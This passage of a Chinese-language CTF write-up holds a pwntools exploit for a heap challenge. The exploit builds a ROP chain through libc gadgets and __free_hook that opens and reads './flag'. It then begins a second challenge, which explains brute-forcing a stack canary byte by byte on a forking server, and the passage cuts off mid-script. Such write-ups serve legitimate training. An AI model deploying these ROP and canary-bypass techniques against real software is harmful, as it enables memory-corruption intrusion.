     add_rsp_ret = libc.address + 0x47445
    mov_rsp_rdx_ret = libc.address + 0x5b4d0
    pop_rdi_ret = libc.address + 0x23b6a
    pop_rsi_ret = libc.address + 0x2601f
    pop_rdx_ret = libc.address + 0x142c92
    gadget = libc.address + 0x151990

    payload  = p64(gadget)
    payload += p64(libc.sym["__free_hook"] + 0x10)
    payload += p64(add_rsp_ret)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(mov_rsp_rdx_ret)
    payload += p64(0)
    payload += p64(pop_rdi_ret)
    payload += p64(libc.sym["__free_hook"] + 0xc0)
    payload += p64(pop_rsi_ret)
    payload += p64(0)
    payload += p64(libc.sym["open"])
    payload += p64(pop_rdi_ret)
    payload += p64(3)
    payload += p64(pop_rsi_ret)
    payload += p64(libc.sym["__free_hook"] - 0x100)
    payload += p64(pop_rdx_ret)
    payload += p64(0x100)
    payload += p64(libc.sym["read"])
    payload += p64(pop_rdi_ret)
    payload += p64(libc.sym["__free_hook"] - 0x100)
    payload += p64(libc.sym["puts"])
    payload += p64(0)
    payload += b"./flag\x00"

    update(13, payload)
    delete(12)

    p.interactive()
    ```

---

## funcanary
![](https://img.shields.io/badge/-PWN-4d3f3f?style=flat-square)

一个不断 fork 的程序，因为 fork 创建子进程时拷贝全部内存，所以 canary 不会变，函数地址也都不会变。

所以逐字节爆破 canary，然后爆破覆盖返回地址末尾，直到正确跑到后门地址为止：

???+ success "exp"
    ```python
    canary = b"\x00"

    p.recv()

